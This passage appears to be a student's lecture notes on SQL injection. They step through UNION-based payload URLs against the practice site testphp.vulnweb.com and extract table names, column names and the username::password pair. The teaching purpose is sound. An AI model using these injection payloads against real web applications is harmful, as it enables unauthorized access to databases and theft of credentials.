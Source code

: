     	- output : got all the tables names<br><img src="../../notes-pics/03-Module/21_lecture/21_lecture-8-M3.jpg" alt="" width="500"/>
			<br>let's check "users" table (which might contain sensitive data)
- STEP 6 : taking out `users` sensitive data
	- STEP 6.1 : run `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'`
    	- means we're retrieving columns of users table via `group_concat()` ✔️
	- output : got all the column names i.e uname,pass,cc,address,email,name,phone,cart
- STEP 7 : taking out username & password columns of "users" table
	- STEP 7.1 : use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname),3 from users`
    	- this command will show all the usernames
    	- STEP 7.1.1 : hit enter & output : test (cuz we have only 1 username in the database)
	- STEP 7.2 : to get all the passwords of all usernames , <br>
		use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(pass),3 from users` , <br>
		output : pass
	- STEP 7.3 : to show all usernames & passwords altogether <br>
		use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname,"::",pass),3 from users` , <br>
		output : test::test

### Summary
1) checking the webapp whether it's vulnerable or not by putting a single quote
2) checking number of columns in the application
3) checking which columns are reflecting/coming & which are not coming reflecting
4) finding database via finding which column is using/connected with database
5) finding version of tech used in application + current user
6) taking out users sensitive data
7) taking out all usernames & passwords

---
### End of Lecture (Doubts)
- in SQL injection , whatever we did - all those commands related to SQL